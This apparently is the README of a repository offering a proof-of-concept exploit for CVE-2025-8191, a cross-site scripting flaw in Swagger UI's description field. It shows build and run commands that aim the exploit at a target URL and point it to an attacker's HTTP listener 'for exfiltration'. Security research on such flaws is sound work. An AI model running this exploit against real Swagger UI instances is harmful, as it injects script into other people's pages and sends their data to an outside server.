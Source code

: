 # CVE-2025-8191 – Swagger UI XSS Injection

## Description : 
 
This repository contains a Proof‑of‑Concept (PoC) exploit for CVE‑2025‑8191, a vulnerability found in Swagger UI.

The vulnerability allows Cross‑Site Scripting (XSS) injection in the “description” field, leading to remote script execution under Swagger UI versions ≤ 1.0.3.

## References :
- NVD Entry: https://nvd.nist.gov/vuln/detail/CVE-2025-8191   
## Usage :

```
gcc exploit.c argparse.c -o exploit -lcurl
./exploit -u http://target.com -s http://yourserver.com -v 
```
Replace http://target.com with the target Swagger UI URL, and http://yourserver.com with your HTTP listener for exfiltration.

## Disclaimer :
This code is for educational and security‑research purposes only. Do NOT use it on systems for which you do not have explicit permission. The author is not responsible for any misuse.

## License :
MIT License
